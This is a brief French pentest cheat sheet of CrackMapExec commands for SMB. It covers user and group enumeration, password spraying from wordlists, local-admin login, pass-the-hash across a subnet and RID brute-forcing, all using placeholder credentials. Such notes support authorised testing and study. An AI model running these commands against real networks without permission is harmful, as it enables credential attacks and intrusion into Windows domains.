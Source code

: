 ### enumeration utilisateur 
```bash
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --users
```



```
crackmapexec smb 10.211.11.20 -u listenom.txt -p passtest.txt
```

#### Connectez-vous à la cible à l'aide d'un compte local

```bash
crackmapexec smb 192.168.215.138 -u 'Administrator' -p 'PASSWORD' --local-auth

crackmapexec smb 172.16.157.0/24 -u administrator -H 'LMHASH:NTHASH' --local-auth
```

#### Enumerer les utilisateurs 

```bash
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --users
```

```bash
# Perform RID Bruteforce to get users
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --rid-brute

# Enumerate domain groups
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --groups

# Enumerate local users
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --local-users
```



https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/